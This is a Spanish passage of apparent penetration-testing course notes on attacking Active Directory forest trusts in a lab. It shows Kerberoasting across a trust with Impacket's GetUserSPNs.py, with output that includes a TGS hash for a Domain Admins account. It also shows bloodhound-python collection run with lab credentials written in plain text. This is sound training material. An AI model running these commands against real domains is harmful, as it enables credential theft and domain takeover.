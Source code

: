 ---------
- Tags: #GetUserSPNs #kerberoasting 
----------------
Como vimos en la sección anterior, a menudo es posible realizar Kerberoast a través de un fideicomiso forestal. Si esto es posible en el entorno que estamos evaluando, podemos realizarlo `GetUserSPNs.py`desde nuestro host de ataque Linux. Para hacer esto, necesitamos credenciales para un usuario que pueda autenticarse en el otro dominio y especificar la `-target-domain`bandera en nuestro comando. Al realizar esto en el `FREIGHTLOGISTICS.LOCAL`dominio, vemos una entrada SPN para la `mssqlsvc`cuenta.
## Kerberoasting entre bosques

#### Usando GetUserSPNs.py

```shell-session
lilscott6x9@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 
```
Volver a ejecutar el comando con la `-request`bandera agregada nos da el ticket TGS. También podríamos agregar `-outputfile <OUTPUT FILE>`la salida directamente a un archivo que luego podríamos darle la vuelta y ejecutar Hashcat.
#### Usando el indicador -request

```shell-session
lilscott6x9@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               


$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>
```
## Cazando membresía en grupos extranjeros con Bloodhound-python

Como se indicó en la última sección, es posible que, de vez en cuando, veamos a usuarios o administradores de un dominio como miembros de un grupo en otro dominio. Dado que solo `Domain Local Groups`se permiten usuarios fuera de su bosque, no es raro ver a un usuario con privilegios elevados del dominio A como miembro del grupo de administradores integrado en el dominio B cuando se trata de una relación de confianza de bosque bidireccional. Si estamos probando desde un host Linux, podemos recopilar esta información utilizando la [implementación Python de BloodHound](https://github.com/fox-it/BloodHound.py) . Podemos utilizar esta herramienta para recopilar datos de múltiples dominios, ingerirlos en la herramienta GUI y buscar estas relaciones.

En algunas evaluaciones, nuestro cliente puede proporcionarnos una máquina virtual que obtenga una IP de DHCP y esté configurada para usar el DNS del dominio interno. Estaremos en un host de ataque sin DNS configurado en otras instancias. En este caso, necesitaríamos editar nuestro `resolv.conf`archivo para ejecutar esta herramienta, ya que requiere un nombre de host DNS para el controlador de dominio de destino en lugar de una dirección IP. Podemos editar el archivo de la siguiente manera usando los derechos sudo. Aquí hemos comentado las entradas actuales del servidor de nombres y hemos agregado el nombre de dominio y la dirección IP `ACADEMY-EA-DC01`como servidor de nombres.

#### Agregar información INLANEFREIGHT.LOCAL a /etc/resolv.conf

```shell-session
lilscott6x9@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```
Una vez que esto esté implementado, podemos ejecutar la herramienta en el dominio de destino de la siguiente manera:
#### Ejecutando bloodhound-python contra INLANEFREIGHT.LOCAL

```shell-session
lilscott6x9@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 559 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 2950 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts

<SNIP>
```

Repetiremos el mismo proceso, esta vez completando los datos del `FREIGHTLOGISTICS.LOCAL`dominio.

#### Agregar información FREIGHTLOGISTICS.LOCAL a /etc/resolv.conf

```shell-session
lilscott6x9@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

El `bloodhound-python`comando será similar al anterior:
#### Ejecutando sabueso-python contra FREIGHTLOGISTICS.LOCAL

```shell-session
lilscott6x9@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

INFO: Found AD domain: freightlogistics.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 5 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 9 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 52 groups
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
```

Después de cargar el segundo conjunto de datos (ya sea cada archivo JSON o como un archivo zip), podemos hacer clic `Users with Foreign Domain Group Membership`debajo de la `Analysis`pestaña y seleccionar el dominio de origen como `INLANEFREIGHT.LOCAL`. Aquí, veremos que la cuenta de administrador integrada para el dominio INLANEFREIGHT.LOCAL es miembro del grupo de administradores integrado en el dominio FREIGHTLOGISTICS.LOCAL como vimos anteriormente.
#### Ver derechos peligrosos a través de BloodHound

![imagen](https://academy.hackthebox.com/storage/modules/143/foreign_membership.png)

---
## Pensamientos finales sobre los fideicomisos

Como se vio en las secciones anteriores, hay varias maneras de aprovechar las confianzas de dominio para obtener acceso adicional e incluso hacer un "final" y escalar privilegios en nuestro dominio actual. Por ejemplo, podemos tomar el control de un dominio en el que nuestro dominio actual confía y encontrar la reutilización de contraseñas en cuentas privilegiadas. Hemos visto cómo los derechos de administrador de dominio en un dominio secundario casi siempre significan que podemos escalar privilegios y comprometer el dominio principal mediante el ataque ExtraSids. Los fideicomisos de dominio son un tema bastante amplio y complejo. El manual de este módulo nos ha brindado las herramientas para enumerar fideicomisos y realizar algunos ataques estándar dentro y entre bosques.